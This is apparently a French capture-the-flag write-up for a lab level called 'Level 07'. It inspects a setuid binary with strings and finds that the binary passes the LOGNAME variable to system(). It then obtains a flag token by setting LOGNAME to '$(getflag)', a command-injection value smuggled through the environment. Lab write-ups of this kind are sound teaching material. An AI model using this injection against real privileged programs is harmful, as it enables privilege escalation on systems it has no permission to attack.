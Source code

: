 # Level 07

Structure du home
```sh
$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
On peut apercevoir un exécutable. Si on l'exécute il nous écrit seulement `level07`.

En tout premier avant de peu être le décompiler, on peut lancer `strings` dessus
```
$ strings ./level07
/lib/ld-linux.so.2
__gmon_start__
...
_IO_stdin_used
asprintf
getenv
system
...
__libc_start_main
...
LOGNAME
/bin/echo %s
...
```
Pleins de chose intéressant se montre à nous, comme les fonctions ou même les strings utilisés.
Comme les fonctions `getenv`, `system`, `asprintf`. Ce qui voudrait dire que l'exécutable fait appeler à une variable d'environnement, exécute peut-être `/bin/echo %s` et le pourcentage `%s` comme une valeur dynamique set via l'asprintf ?

Mettons nos infos au test :
- Dans un premier temps, le string `LOGNAME` est-elle la variable env?
- Et si nous changeons la variable.
- Grâce à la fonction system, on pourrait exécuter autre chose que `/bin/echo`
```sh
$ echo $LOGNAME
level07
$ export LOGNAME=getflag
$ ./level07
getflag
$ export LOGNAME='$(getflag)'
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```